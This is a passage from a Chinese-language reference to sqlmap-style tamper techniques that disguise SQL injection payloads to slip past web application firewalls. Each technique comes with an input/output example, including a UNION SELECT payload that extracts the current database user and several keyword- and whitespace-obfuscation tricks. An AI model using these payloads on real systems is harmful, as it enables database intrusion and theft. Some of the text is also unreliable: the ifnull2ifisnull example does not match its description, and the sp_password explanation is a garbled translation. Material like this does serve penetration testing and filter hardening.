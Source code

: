 围绕每个 SQL 关键字添加注释。

Example:
* Input: "value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa"
* Output: "value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa"



space2morehash

空格替换为井号、换行符、以及更多随机字符串。

Example:
* Input: '1 AND 9227=9227'
* Output: '1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227'


ifnull2ifisnull

绕过对 IFNULL 过滤。

Example:
* Input: 'SELECT id FROM users'
* Output:  'SELECT%A0id%0BFROM%0Cusers'


space2plus

用加号替换空格（很可能被阻拦）。

Example:
* Input: 'SELECT id FROM users'
* Output:  'SELECT+id+FROM+users'


nonrecursivereplacement

双重查询语句。

Example:
* Input: '1 UNION SELECT 2--'
* Output: '1 UNIOUNIONN SELESELECTCT 2--'


space2randomblank

从有效空白符号字符集中选出并替换空格。

Example:
* Input: 'SELECT id FROM users'
* Output:  'SELECT%0Did%0DFROM%0Ausers'


sp_password

追加sp_password’从DBMS日志的自动模糊处理的有效载荷的末尾。

Example:
* Intput:  '1 AND 9227=9227-- '
* Output: '1 AND 9227=9227-- sp_password'
Requierment:
* Not Oracle
